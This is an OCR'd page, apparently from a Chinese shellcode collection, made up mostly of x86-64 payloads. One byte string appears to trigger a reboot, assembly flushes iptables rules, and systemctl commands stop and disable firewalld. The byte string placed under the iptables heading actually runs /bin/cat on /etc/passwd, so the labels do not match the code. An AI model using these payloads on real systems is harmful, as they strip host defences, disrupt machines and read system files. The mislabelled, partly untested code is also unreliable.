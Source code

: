 ```
\xb8\x97\xe6\xed\xd7\x48\xf7\xd8\x48\x89\xc6\xb8\x53\x21\x1e\x01\x48\xf7\xd8\x48\x89\xc7\x48\x31\xd2\x48\x81\xc2\x67\x45\x23\x01\x48\x31\xc0\xb0\xa9\x0f\x05
```



## 3.关闭防火墙  

### 1.黄  关闭iptables   未尝试 66byte

```
section .text
	global _start
         
_start:
    xor     rax, rax
    push    rax
    push    word 0x462d
    mov     rcx, rsp
       
    mov     rbx, 0x73656c626174ffff
    shr     rbx, 0x10
    push    rbx
    mov     rbx, 0x70692f6e6962732f
    push    rbx
    mov     rdi, rsp
         
    push    rax
    push    rcx
    push    rdi
    mov     rsi, rsp
        
    ; execve("/sbin/iptables", ["/sbin/iptables", "-F"], NULL);
    mov     al, 0x3b
    syscall
```

```
\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x70\x61\x73\x73\x77
\x64\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5
\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48
\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58
\x0f\x05
```

### 2.关闭firewalld(需要加sudo)116byte

```
1:查看防火状态
systemctl status firewalld
2:暂时关闭防火墙
systemctl stop firewalld
3:永久关闭防火墙
systemctl disable firewalld
4:重启防火墙
systemctl enable firewalld
5:永久关闭后重启
//暂时还没有试过
chkconfig iptables on
```

